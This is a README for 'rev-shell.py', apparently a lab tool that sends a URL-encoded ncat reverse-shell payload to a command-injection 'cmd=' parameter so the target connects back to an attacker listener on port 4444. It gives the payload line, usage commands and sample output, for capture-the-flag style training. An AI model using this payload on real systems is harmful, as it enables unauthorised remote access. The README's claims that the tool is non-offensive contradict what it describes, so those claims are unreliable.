

# 📘 **rev-shell.py — Reverse‑Shell Payload Delivery Demonstrator**

## 1. Introduction

`rev-shell.py` is a Toolbox module designed to demonstrate how **command‑injection vulnerabilities** can be used to deliver a reverse‑shell payload to a vulnerable web endpoint in controlled environments.

It performs:

- reverse‑shell payload construction  
- URL‑encoding of the payload  
- delivery via HTTP GET to a vulnerable `cmd=` parameter  
- optional dry‑run simulation  
- optional logging + hashmap traceability  

When executed on the target, the payload causes the target to connect back to the attacker’s listener on port **4444**, binding `/bin/bash` to the connection.

This tool is ideal for:

- Windows PrivEsc Arena  
- THM command‑injection rooms  
- attacker‑workflow demonstrations  
- defensive detection and forensic reasoning  
- teaching how reverse shells are triggered in controlled labs  

It is **non‑malicious**, **non‑destructive**, and intended for **educational use only**.

---

## 2. What This Tool Demonstrates

`rev-shell.py` models the **attacker exploitation → payload delivery → callback workflow**, showing:

- how reverse‑shell payloads are constructed  
- how URL‑encoding preserves payload integrity  
- how vulnerable endpoints execute attacker‑supplied commands  
- how defenders can recognise suspicious callback behaviour  

It reinforces both **attacker literacy** and **defender intuition**.

---

## 3. High‑Level Workflow



---

## 4. Usage

### Basic payload delivery

```
rev-shell.py --ip 10.10.10.10 --url http://target/exec.php?cmd=
```

### Dry‑run (simulate without sending)

```
rev-shell.py --ip 10.10.10.10 --url http://target/exec.php?cmd= --dry-run
```

### Verbose mode

```
rev-shell.py --ip 10.10.10.10 --url http://target/exec.php?cmd= --verbose
```

### Logging + Hashmap traceability

```
rev-shell.py --ip 10.10.10.10 --url http://target/exec.php?cmd= --log --hashmap
```

---

## 5. Output Files

When optional flags are used:

| File | Purpose |
|------|---------|
| `/var/log/rev-shell.py.log` | Execution log (when `--log` is used) |
| `.hashmap/rev-shell.py.hash` | SHA‑256 hash of the script (when `--hashmap` is used) |
| `.hashmap/rev-shell.py.timestamp` | Timestamp of execution (when `--hashmap` is used) |

These reinforce **traceability**, **repeatability**, and **forensic analysis** — consistent across all Toolbox Python tools.

---

## 6. Reverse‑Shell Payload Construction

The payload is constructed as:

```
ncat <attack_ip> 4444 -e /bin/bash
```

This is then URL‑encoded:

```
ncat%2010.10.10.10%204444%20-e%20/bin/bash
```

Verbose mode prints both:

```
[LOG] Payload constructed: ncat 10.10.10.10 4444 -e /bin/bash
[LOG] Encoded payload: ncat%2010.10.10.10%204444%20-e%20/bin/bash
```

---

## 7. Payload Delivery

The encoded payload is appended to the vulnerable endpoint:

```
http://target/exec.php?cmd=<encoded_payload>
```

Then delivered via:

```
requests.get()
```

Example output:

```
[+] Sending reverse shell payload...
```

If the endpoint is vulnerable, the target executes the payload and connects back to the listener.

---

## 8. Example Output

### Dry‑run

```
[DRY-RUN] Reverse shell payload delivery simulated.
[DRY-RUN] Would send to: http://target/exec.php?cmd=ncat%2010.10.10.10%204444%20-e%20/bin/bash
```

### Real execution

```
[+] Sending reverse shell payload...
```

---

## 9. Educational Value

`rev-shell.py` is ideal for:

- demonstrating reverse‑shell delivery  
- teaching URL‑encoding of payloads  
- modelling attacker exploitation workflows  
- reinforcing defensive detection of callback behaviour  
- THM rooms involving command injection  
- internal awareness training  

It is **not** intended for real‑world offensive use.

---

## 10. Limitations

- Assumes the endpoint executes commands via `cmd=`  
- No validation of listener availability  
- No error handling for failed callbacks  
- No stealth or evasion logic  
- Intended for **controlled environments** only  

These limitations are intentional — the tool focuses on **education**, not exploitation.

---

## 11. Summary

`rev-shell.py` is a compact, educational reverse‑shell demonstrator that:

- constructs and URL‑encodes payloads  
- delivers them to vulnerable endpoints  
- models attacker workflows  
- reinforces defensive detection and forensic reasoning  
- integrates cleanly with the Toolbox architecture  

It is transparent, predictable, and ideal for PrivEsc Arena and THM‑style learning.

---

## 📢 Disclaimer

This tool performs **non‑destructive, educational demonstrations only**.  
It does **not** bypass security controls or perform offensive actions.  
Use responsibly and only in environments where you have explicit permission.

---

## 🤖 AI & Ethics Disclosure

This documentation was co‑authored with AI assistance.  
For details on responsible use, transparency, and authorship, see the **AI & Ethics** section in the Toolbox README.

🔙 Return to [Toolbox](https://github.com/Mark-a-Hamilton/Toolbox)

---
